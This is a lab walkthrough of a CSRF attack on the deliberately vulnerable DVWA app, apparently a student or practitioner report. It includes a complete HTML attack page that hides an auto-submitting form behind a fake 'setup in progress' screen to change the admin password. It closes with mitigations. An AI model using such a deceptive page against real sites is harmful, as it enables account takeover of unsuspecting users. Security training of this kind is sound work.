





# Cross-Site Request Forgery (CSRF) Attack Walkthrough - Low Security Level

## Introduction

In this report, I'll document how I tested the CSRF vulnerability in DVWA (Damn Vulnerable Web Application) at the low security level. I performed this testing using Kali Linux and created a simple HTML page to execute the attack.

## What is CSRF?

Cross-Site Request Forgery (CSRF) is an attack that tricks users into performing actions on a website where they're authenticated like changing their password or making a purchase without them knowing. According to PortSwigger Academy, three conditions must exist for a CSRF attack to be successful:

1. A relevant action that the attacker wants to perform (like changing a password)
2. Cookie-based session handling (so the victim's browser automatically sends their session cookie)
3. No unpredictable request parameters that an attacker can't determine or guess

## My Testing Environment

- Host OS: Kali Linux
- Target: DVWA (local installation at dvwa.local)
- Browser: Firefox
- Security Level: Low

## Step 1: Understanding the Target Functionality

First, I examined the CSRF vulnerability page in DVWA which provides a form to change the admin password.



Looking at the source code, I noticed there were no CSRF protections in the low security level implementation:




The code uses GET parameters and has no token validation, making it vulnerable to CSRF.

## Step 2: Creating a Malicious Page

I created an HTML file named `stealth_csrf.html` with the following code:



```html
<!DOCTYPE html>
<html>
<head>
  <title>Welcome</title>
  <style>
    body {
      font-family: Arial, sans-serif;
      text-align: center;
      margin-top: 50px;
    }
    .container {
      max-width: 600px;
      margin: 0 auto;
      padding: 20px;
      border: 1px solid #eee;
      border-radius: 10px;
      box-shadow: 0 0 10px rgba(0,0,0,0.1);
    }
    .loader {
      border: 5px solid #f3f3f3;
      border-top: 5px solid #3498db;
      border-radius: 50%;
      width: 50px;
      height: 50px;
      animation: spin 2s linear infinite;
      margin: 20px auto;
    }
    @keyframes spin {
      0% { transform: rotate(0deg); }
      100% { transform: rotate(360deg); }
    }
  </style>
</head>
<body>
  <div class="container">
    <h1>Hello there!</h1>
    <p>We are setting something up for you.</p>
    <p>Your content will be ready in just a moment...</p>
    
    <div class="loader"></div>
    
    <!-- Hidden form for CSRF attack -->
    <form id="csrf-form" action="http://dvwa.local/vulnerabilities/csrf/" method="GET" style="display:none">
      <input type="hidden" name="password_new" value="hacked123">
      <input type="hidden" name="password_conf" value="hacked123">
      <input type="hidden" name="Change" value="Change">
    </form>

    <p>Please don't close this window while we complete the setup.</p>
    <p id="status-message">Initializing...</p>
  </div>

  <script>
    // Update status message
    let statusElement = document.getElementById("status-message");
    let messages = [
      "Initializing...",
      "Connecting to server...",
      "Verifying credentials...",
      "Almost there...",
      "Setup complete!"
    ];
    
    let messageIndex = 0;
    
    // Update status message every second
    let messageInterval = setInterval(() => {
      if (messageIndex < messages.length - 1) {
        messageIndex++;
        statusElement.textContent = messages[messageIndex];
      } else {
        clearInterval(messageInterval);
      }
    }, 1000);
    
    // Auto-submit the form after 2 seconds
    setTimeout(() => {
      document.getElementById("csrf-form").submit();
    }, 2000);
  </script>
</body>
</html>
```

This page looks innocent to users but secretly contains a hidden form that automatically submits after 2 seconds. The form attempts to change the admin password to "hacked123".

## Step 3: Executing the Attack

I created a simple web server to host my malicious page:
```
python -m http.server 5050
```

In a real attack scenario, the attacker would trick the victim into visiting the attacker page while they're logged into DVWA. For testing purposes, I visited the page myself while logged in as admin on DVWA.

When the victim (me in this case) visits `192.168.34.133:5050/stealth_csrf.html`, they see a harmless loading page with a spinner and text that says "Please don't close this window while we complete the setup."



The page shows progressive status messages that make it look legitimate:

1. "Initializing..."
2. "Connecting to server..."
3. "Verifying credentials..."
4. "Almost there..."
5. "Setup complete!"

After 2 seconds, the page automatically submits the hidden form, sending a request to change the DVWA admin password.

## Step 4: Attack Result

The attack was successful! After the form auto-submitted, I was redirected to the CSRF page in DVWA with the message "Password Changed." The admin password was now "hacked123".



I could verify this by:
1. Looking at the URL, which showed the GET parameters were passed successfully: 
   `dvwa.local/vulnerabilities/csrf/?password_new=hacked123&password_conf=hacked123&Change=Change`
2. Seeing the "Password Changed" confirmation message
3. Trying to log in using the new password

## Why the Attack Worked

This attack was successful because:

1. DVWA at low security level uses GET requests for the password change functionality
2. There are no CSRF tokens or other protections
3. The application relies entirely on cookie-based authentication
4. The request parameters were predictable
5. The victim's browser automatically includes their authentication cookies when submitting the form

## Mitigation Strategies

To prevent CSRF attacks, websites should implement:

1. Anti-CSRF tokens (unique, unpredictable tokens that must be included with each request)
2. SameSite cookie attributes to restrict cross-origin requests
3. Require user re-authentication for sensitive actions
4. Implement proper referrer checking
5. Use POST instead of GET for state-changing operations

## Medium and High Security Levels

At medium and high security levels, DVWA implements additional protections:

- Medium: Implements referrer checking, which can be bypassed if the attacker can control the HTTP referer header
- High: Implements anti-CSRF tokens, which provide strong protection against CSRF attacks

## Conclusion

This example demonstrates how easy it is to perform a CSRF attack when proper protections aren't in place. The attack requires minimal technical knowledge and can have serious consequences like account takeover or privilege escalation.

The deceptive UI elements in my attack page (progress messages, loading spinner) make it more likely that a victim would stay on the page long enough for the attack to complete, highlighting the social engineering aspect of CSRF attacks.

## References

1. YouTube tutorial: [DVWA CSRF Attack](https://youtu.be/BBosVSNiJdM?t=1271)
2. PortSwigger Academy: Cross-site request forgery (CSRF) 